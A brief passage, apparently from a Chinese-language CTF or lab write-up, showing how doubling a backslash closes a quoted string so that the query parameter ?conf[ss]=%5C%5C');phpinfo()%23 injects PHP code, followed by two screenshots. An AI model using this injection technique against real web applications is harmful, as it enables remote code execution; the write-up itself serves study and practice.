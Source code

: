如果我们双写 `\` 呢

```
?conf[ss]=%5C%5C');phpinfo()%23
```

成功闭合

<img src=".\图片\Snipaste_2023-08-09_14-45-01.png" alt="Snipaste_2023-08-09_14-45-01" style="zoom:80%;" />

<img src=".\图片\Snipaste_2023-08-09_14-45-56.png" alt="Snipaste_2023-08-09_14-45-56" style="zoom:67%;" />
